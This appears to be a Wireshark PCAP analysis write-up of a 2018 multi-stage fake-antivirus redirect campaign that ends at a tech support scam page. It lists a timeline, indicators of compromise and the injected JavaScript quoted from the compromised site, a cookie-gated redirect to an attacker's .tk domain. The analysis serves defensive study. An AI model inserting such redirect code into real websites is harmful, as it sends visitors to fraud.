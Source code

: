 # Wireshark Traffic Analysis: Multi-Stage Fake AV Redirect Campaign (2018-01-08)

## Case Overview

This report analyzes a PCAP capturing a multi-stage browser-based attack involving:

- A compromised legitimate website injecting malicious JavaScript
- Redirects to attacker-controlled `.tk` domains
- A final tech support scam landing page urging victims to call a fake toll-free number

PCAP Source: [malware-traffic-analysis.net – 2018/01/08](https://www.malware-traffic-analysis.net/2018/01/08/index.html)  
Related Analysis: [SANS ISC Diary – Fake AV Pages](https://isc.sans.edu/diary/Fake+antivirus+pages+popping+up+like+weeds/23207)

---

## Timeline of Events

| Step | Description |
|-------|-------------|
| 1 | Victim (`10.1.8.101`) visits compromised site `proactivo.com.pe` |
| 2 | HTTP response includes injected JavaScript that redirects to `raksupp0rt0701234567890[.]tk` |
| 3 | Victim’s browser sends GET request to `raksupp0rt0701234567890[.]tk` (`204.155.28.5`) |
| 4 | Server responds with HTTP 302 redirect to `tehcallinghere07012345[.]tk/?number=888-794-9521` |
| 5 | Victim would be directed to a tech support scam page urging a call to a fake toll-free number |

---

## Detailed Findings

### Stage 1 – Malicious JavaScript Injection

- The legitimate site `proactivo.com.pe` returned an HTTP response containing this JavaScript snippet:

```javascript
popup_ = readCookie543534("1561065164894_CRYPPER");
var randomnumber = Math.random();
if ("1" != popup_) {
  createCookie13123213("1561065164894_CRYPPER", "1", 1);
  window.location = "http://raksupp0rt0701234567890[.]tk/index/?2661511868997";
}
```
This script sets a cookie to avoid repeated redirects and forces the browser to navigate to the attacker’s domain.

![JavaScript redirect code from proactivo.com.pe](screenshots/06-javascript-redirect.png)

### Stage 2 – Redirect Server Interaction

- The victim’s browser connects to raksupp0rt0701234567890.tk (204.155.28.5) and sends:

GET /index/?2661511868997 HTTP/1.1
`Host: raksupp0rt0701234567890[.]tk`

- The server responds with an HTTP 302 redirect:

`Location: http://tehcallinghere07012345[.]tk/?number=888-794-9521`

![HTTP GET request to malicious .tk domain](screenshots/07-http-request-to-tk.png)  

![Filtered network traffic to redirect server 204.155.28.5](screenshots/08-traffic-to-redirect-server.png)  

![HTTP 302 redirect to tech support scam site](screenshots/09-stage3-302-redirect.png)


### Stage 3 – Final Tech Support Scam Landing

- The redirected URL contains a phone number parameter:

  `http://tehcallinghere07012345[.]tk/?number=888-794-9521`

- This is a classic tech support scam technique designed to trick victims into calling a fraudulent toll-free number and paying for fake services.

## Indicators of Compromise

| Type               | Value                        |
| ------------------ | ---------------------------- |
| Victim IP          | `10.1.8.101`                 |
| Compromised Site   | `proactivo.com.pe`           |
| Redirect Domain 1  | `raksupp0rt0701234567890[.]tk` |
| Redirect Server IP | `204.155.28.5`               |
| Redirect Domain 2  | `tehcallinghere07012345[.]tk`  |
| Scam Phone Number  | `888-794-9521`               |

## Threat Analysis Summary

- The attacker compromised a legitimate website to inject JavaScript that triggers browser redirects.
- The victim’s browser followed multiple redirects, ending at a tech support scam domain.
- No malware executable was directly observed in the capture.
- This multi-stage redirect and social engineering is typical of browser locker and fake AV scams.
